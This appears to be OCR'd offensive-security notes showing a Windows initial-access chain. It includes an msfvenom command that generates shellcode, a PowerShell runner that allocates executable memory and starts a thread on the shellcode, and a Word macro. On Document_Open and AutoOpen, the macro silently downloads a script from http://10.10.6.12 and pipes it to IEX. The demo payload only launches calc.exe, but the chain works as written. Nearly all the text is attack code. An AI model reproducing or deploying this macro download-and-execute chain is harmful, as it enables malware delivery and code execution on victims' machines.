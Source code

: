 Generating shellcode using msfvenom, we will ue a calc function to do it.

```bash
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00\x0A\x0D' -f ps1
     

```

The combined code is put in `calc.ps1`

```ps1
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint 
flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint 
dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
 UInt32 dwMilliseconds);
}
"@
Add-Type $Kernel32

[Byte[]] $buf = 'add code here'
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

```

that pops a calc

Now calling the download and execute from a word macro

```vb
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.10.6.12/calc.ps1') | IEX"
 'str = "calc.exe"
 Shell str, vbHide
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
```
